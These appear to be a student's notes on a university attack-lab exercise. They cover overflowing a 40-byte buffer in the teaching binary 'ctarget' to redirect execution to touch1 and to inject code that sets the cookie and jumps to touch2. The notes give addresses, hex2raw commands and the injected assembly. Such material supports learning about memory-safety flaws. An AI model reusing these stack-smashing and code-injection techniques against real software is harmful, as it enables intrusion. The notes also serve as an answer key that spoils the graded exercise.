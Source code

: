 objdump to obtain dissambled version of ctarget.
To generate assembly code from the executable, execute `objdump -d ctarget > ctarget.s`.

gdb to step the execution through the last few steps.

touch1 address 4017c0
Modify buf through careful input to change the value of ret address to touch1.
buffer size 0x28, 40 bytes.
`./hex2raw < probehex.txt > proberaw`
`./ctarget -q < probraw`


0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret 

buffer head: rsp = 0x000000005561dc78
Let getbuf return to the beginning of the buf. Execute the code here.
Place the string at the beginning of the stack of the function test.
rsp = 0x5561dca8